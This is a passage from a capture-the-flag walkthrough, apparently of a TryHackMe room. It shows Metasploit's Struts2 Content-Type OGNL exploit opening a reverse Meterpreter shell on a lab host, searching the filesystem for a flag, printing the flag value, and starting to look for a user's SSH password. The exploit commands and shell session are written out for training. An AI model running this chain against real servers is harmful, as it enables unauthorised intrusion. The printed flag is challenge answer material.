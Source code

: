 ~~~
LHOST => 10.9.35.106
~~~

We are good to exploit:

~~~
msf5 exploit(multi/http/struts2_content_type_ognl) > exploit 

[*] Started reverse TCP handler on 10.9.35.106:4444 
[*] Sending stage (980808 bytes) to 10.10.223.120
[*] Meterpreter session 1 opened (10.9.35.106:4444 -> 10.10.223.120:39532) at 2020-05-02 09:17:24 -0700

meterpreter >
~~~

Great, we have a meterpreter. Now, let's open a shell to find our flag:

~~~
meterpreter > shell
Process 70 created.
Channel 1 created.
find / 2>/dev/null | grep -i flag
/sys/devices/pnp0/00:06/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth0/flags
/sys/module/scsi_mod/parameters/default_dev_flags
/proc/sys/kernel/acpi_video_flags
/proc/kpageflags
/usr/lib/x86_64-linux-gnu/perl/5.20.2/bits/waitflags.ph
/usr/local/tomcat/webapps/ROOT/ThisIsFlag1.txt
/flag-dir
^C
Terminate channel 1? [y/N]  y
~~~

We have located our flag (`/usr/local/tomcat/webapps/ROOT/ThisIsFlag1.txt`). Let's use `cat` to show the flag:

~~~
meterpreter > cat /usr/local/tomcat/webapps/ROOT/ThisIsFlag1.txt
THM{3ad96bb13ec963a5ca4cb99302b37e12}
meterpreter > 
~~~

## #2 - Now you've compromised the web server, get onto the main system. What is Santa's SSH password?

Let's check what we have in Santa's `home`:

~~~
meterpreter > cd /home
meterpreter > ls
Listing: /home
==============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2019-12-08 13:12:45 -0800  santa

meterpreter > cd santa
meterpreter > ls
Listing: /home/santa
====================
~~~